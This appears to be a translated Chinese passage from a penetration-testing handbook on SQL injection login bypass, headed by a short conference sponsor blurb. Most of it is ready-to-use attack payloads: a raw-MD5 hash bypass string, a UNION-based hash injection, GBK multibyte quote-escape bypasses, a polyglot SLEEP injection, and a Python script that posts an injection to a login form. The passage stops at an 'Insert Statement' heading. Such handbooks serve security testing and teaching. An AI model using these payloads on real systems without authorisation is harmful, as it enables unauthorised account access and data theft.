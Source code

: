 ​​​​​[**RootedCON**](https://www.rootedcon.com/) 是 **西班牙** 最相关的网络安全事件，也是 **欧洲** 最重要的事件之一。以 **促进技术知识为使命**，这个大会是各个学科技术和网络安全专业人士的热烈交流点。

{% embed url="https://www.rootedcon.com/" %}

## 认证绕过

尝试绕过登录功能的列表：

{% content-ref url="../login-bypass/sql-login-bypass.md" %}
[sql-login-bypass.md](../login-bypass/sql-login-bypass.md)
{% endcontent-ref %}

### 原始哈希认证绕过
```sql
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```
此查询展示了在身份验证检查中使用MD5并将原始输出设置为true时的漏洞，使系统容易受到SQL注入攻击。攻击者可以通过构造输入来利用这一点，这些输入在哈希时会生成意外的SQL命令部分，从而导致未经授权的访问。
```sql
md5("ffifdyop", true) = 'or'6�]��!r,��b�
sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!
```
### 注入哈希认证绕过
```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```
**推荐列表**：

您应该将列表中的每一行用作用户名，密码始终为： _**Pass1234.**_\
&#xNAN;_(这些有效载荷也包含在本节开头提到的大列表中)_

{% file src="../../.gitbook/assets/sqli-hashbypass.txt" %}

### GBK 认证绕过

如果 ' 被转义，您可以使用 %A8%27，当 ' 被转义时，它将被创建： 0xA80x5c0x27 (_╘'_)
```sql
%A8%27 OR 1=1;-- 2
%8C%A8%27 OR 1=1-- 2
%bf' or 1=1 -- --
```
Python 脚本：
```python
import requests
url = "http://example.com/index.php"
cookies = dict(PHPSESSID='4j37giooed20ibi12f3dqjfbkp3')
datas = {"login": chr(0xbf) + chr(0x27) + "OR 1=1 #", "password":"test"}
r = requests.post(url, data = datas, cookies=cookies, headers={'referrer':url})
print r.text
```
### 多语言注入（多上下文）
```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```
## Insert Statement
